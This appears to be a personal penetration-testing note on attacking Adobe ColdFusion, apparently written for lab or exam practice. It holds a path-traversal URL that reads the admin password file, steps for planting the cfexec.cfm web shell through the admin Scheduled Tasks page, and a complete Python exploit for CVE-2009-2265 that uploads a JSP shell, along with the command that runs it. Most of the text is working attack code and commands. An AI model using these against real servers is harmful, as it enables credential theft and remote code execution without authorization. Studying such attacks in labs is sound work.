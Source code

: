 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Resources

https://pentest.tonyng.net/attacking-adobe-coldfusion/

http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py

https://www.exploit-db.com/exploits/27755

---

#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#Sha1]]

#### Admin page reverse shell
Find the local path: mappings
![[Pasted image 20220613153218.png]]

Debugging & Logging > Scheduled Tasks > Schedule New Task

```
cp /usr/share/webshells/cfm/cfexec.cfm .
```

OR 

create a malicious jsp and follow similar steps! >>>

![[0._Reverse shells (WEB)#jsp]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.

**MAKE SURE TO  CHECK THE PUBLISH BOX!**

For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`

![[Pasted image 20220613154728.png]]

After hitting submit, can run tasks right away (Green button), then visit exploit to launch.

`http://$TARGET:/CFIDE/cfexe.cfm`

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[4._File Transfers]]

![[Pasted image 20220613155208.png]]

[[rlwrap]]

#### ColdFusion 8 FileUpload

https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

![[0._Reverse shells (WEB)#jsp]]

![[rlwrap]]

```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp 
```


---


